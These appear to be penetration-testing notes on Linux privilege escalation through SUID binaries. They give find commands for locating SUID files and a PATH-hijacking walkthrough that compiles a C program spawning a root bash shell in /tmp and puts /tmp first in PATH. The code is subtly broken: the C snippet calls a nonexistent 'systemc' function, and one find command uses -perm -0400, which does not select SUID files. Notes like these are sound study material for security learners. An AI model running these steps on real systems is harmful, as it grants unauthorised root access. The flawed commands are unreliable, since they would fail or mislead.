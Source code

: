 # Escalation Path - SUID

---
### Overview
> ***SUID - Set user ID***
- Find out files with the ***S*** bit enabled in the permissions.
>***Note :*** Not every file that has SUID set is vulnerable, try to understand the file usage and stuff and u'll figure it out.
- We can search for the files that have SUID bit enabled with the following command - 
  ```bash
find / -perm -0400 -ls -type f 2>/dev/null
or
find / -perm -u=s -type f 2>/dev/null
  ```
> **Note :** Linpeas will catch this don't worry, but we do need to learn the manual method aye ;).

---
## Escalation via Environment Variables -

- Go ahead and find SUID's.
- use strings SUID
> print $PATH
- we will change the path to run the file/service first that way we can get root.
```bash
echo 'int main() { setgid(0); setuid(0); systemc("/bin/bash"); return 0;}' > /tmp/service.c 
```

```bash
#In command prompt type: 
gcc /tmp/service.c -o /tmp/service
```

```bash
export PATH=/tmp:$PATH
```

- call the suid bianry and u should have root hopefully.
